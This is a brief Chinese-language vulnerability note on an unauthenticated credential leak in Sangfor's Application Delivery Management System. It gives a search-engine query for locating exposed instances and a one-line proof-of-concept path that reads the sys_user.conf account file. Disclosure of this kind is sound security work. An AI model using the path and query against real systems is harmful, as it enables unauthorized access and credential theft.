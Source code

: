 # 深信服 应用交付管理系统 sys_user.conf 账号密码泄漏漏洞

## 漏洞描述

深信服 应用交付管理系统 文件sys_user.conf可在未授权的情况下直接访问，导致账号密码泄漏

## 漏洞影响

<a-checkbox checked>深信服 应用交付管理系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="SANGFOR-应用交付管理系统"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1646105000489-5727976c-4824-4f44-9c53-729cd9410f93.png)

验证POC

```javascript
/tmp/updateme/sinfor/ad/sys/sys_user.conf
```

![img](../../../.vuepress/public/img/1646105017682-f6969569-17c3-4386-aa54-792537cab576.png)